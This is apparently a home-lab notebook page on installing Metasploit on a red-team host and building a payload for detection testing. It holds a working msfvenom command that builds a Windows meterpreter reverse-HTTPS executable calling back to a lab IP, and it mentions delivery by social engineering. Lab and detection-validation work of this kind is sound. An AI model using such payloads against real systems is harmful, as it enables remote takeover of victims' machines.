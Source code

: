```yaml
---
title: "OPF-RED01 Metasploit Setup & Payload Generation"
date: 2025-05-26
draft: false
tags: ["opf-red01", "metasploit", "payloads", "redteam"]
---
```


## Metasploit Installed

Metasploit was installed using the official `msfinstall` script:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb -o msfinstall
chmod 755 msfinstall
sudo ./msfinstall
```

Confirmed with:

```bash
msfconsole --version
```

---

## Payload Generation

The following payload was created for C2 operations within the DMZRED segment:

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https \
  LHOST=192.168.22.50 LPORT=8443 \
  -f exe -o shell.exe
```

Payload was moved to:

```bash
/opt/opforge/redteam/payloads/shell.exe
```

File properties:

```bash
file shell.exe
sha256sum shell.exe
```

The payload is now ready to be staged from OPF-RED01 or delivered via social engineering as part of a detection validation scenario.

---

## Next Steps

- Set up listener in `msfconsole`
- Deploy payload to `opf-mbr01`
- Monitor detection in `opf-blue01`, `opf-ai01`, or via Winlogbeat pipeline
